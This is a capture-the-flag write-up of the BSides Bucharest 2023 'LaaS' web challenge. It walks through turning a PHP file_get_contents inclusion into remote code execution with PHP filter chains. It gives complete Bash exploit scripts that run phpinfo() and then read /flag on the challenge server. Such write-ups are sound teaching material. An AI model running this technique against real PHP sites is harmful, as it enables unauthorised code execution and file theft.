 ```yaml
---
layout: post
title:  "Writeup for Bsides Bucharest 2023 Web Challenge : LaaS"
tags: ctf web bsides 2023 
---
```


This was a really good web challenge, I liked it a lot.

We are given a link to a webpage, let's see what we have there.
<img src="/assets/images/initial-webpage-laas.png" alt="Initial webpage for the challenge">

At a quick glance, it seems like we are able to read files, but there should definitely be a catch.
Let's inspect the source code for the challenge and try to find the catch.

<img src="/assets/images/source-code-webpage-laas.png" alt="Source code for the challenge">

We can control two variables : 
```php
$_POST['file']
``` and 
```php 
$_POST['mac']
```

Let's see what we can do with the __mac__ parameter. It is only used once to check the hash. The equality verification is performed in a safe way. It seems this parameter is only here to make our life harder. We cannot possibly know the MD5 hash of a file on the remote host, especially of the flag file.
The __file__ parameter is way more interesting. The script uses the file_get_contents PHP function in order to read the file contents. Then, if the provided hash matches the calculated hash, the file is included in the response. 
This could be either an LFI or an RFI. Due to the fact that file_get_contents also URLs and PHP filters as valid file content sources, it feels more likely that we have to force the script to include a remote file. 

After a lot of trial and error, PHP filters were looking most promising.
I found a wonderful tool that generates payloads for our exact condition <a href="https://github.com/synacktiv/php_filter_chain_generator">here</a>.
*Quickly added to the notes with useful bug bounty tools*

Let's confirm that we can achieve code execution with RFI.
I like to do it by invoking the phpinfo() function. I have never seen an environment in which the phpinfo function is disabled, so it's a safe option. Also, we might discover disabled functions or interesting environment variables, so it's good to always keep an eye on the output of this function.

I put together a Bash script to automate the testing.

```bash
#!/bin/bash

_COMMAND='<?php phpinfo();  ?>'

_file_cmd="python3 php_filter_chain_generator.py --chain '$_COMMAND'"; 
cmd_output=$(bash -c "$_file_cmd" | tail -n 1);
file=`echo $cmd_output | sed 's/ *$//' | sed 's/^ *//'`

echo "<?php" > solver.php
echo "\$encoded = \"$file\";" >> solver.php
echo "\$content = file_get_contents(\$encoded);" >> solver.php
echo "\$f = fopen('data.bin', 'wb');" >> solver.php
echo "fwrite(\$f, \$content);" >> solver.php
echo "fclose(\$f);" >> solver.php
echo "?>" >> solver.php

php solver.php

_hash=$(md5sum data.bin | awk '{print $1}')

curl -s -X POST "https://laas.fly.dev/" -d "mac=$_hash&file=$file" --output output
cat output
```

First of all we craft a filter chain using the wonderful tool written by Synacktiv.
Then, we craft a PHP script that outputs the result obtained from the reading of the filter chain.
Last but not least, we compute the MD5 hash of the binary file containing the PHP code that should be included in the remote webpage and we submit the form.


After running the script, redirecting the output to a local file and opening the local file in a browser, we are greeted with a wonderful result : the well deserved code execution.

<img src="/assets/images/phpinfo-output-laas.png" alt="phpinfo output after sending the filter chain">

The final script looks like this:

```bash
#!/bin/bash

_COMMAND='<?php echo readfile("/flag");  ?>'

_file_cmd="python3 php_filter_chain_generator.py --chain '$_COMMAND'"; 
cmd_output=$(bash -c "$_file_cmd" | tail -n 1);
file=`echo $cmd_output | sed 's/ *$//' | sed 's/^ *//'`

echo "<?php" > solver.php
echo "\$encoded = \"$file\";" >> solver.php
echo "\$content = file_get_contents(\$encoded);" >> solver.php
echo "\$f = fopen('data.bin', 'wb');" >> solver.php
echo "fwrite(\$f, \$content);" >> solver.php
echo "fclose(\$f);" >> solver.php
echo "?>" >> solver.php

php solver.php

_hash=$(md5sum data.bin | awk '{print $1}')

curl -s -X POST "https://laas.fly.dev/" -d "mac=$_hash&file=$file" --output output
cat output
```

Thanks for reading and keep hacking :)

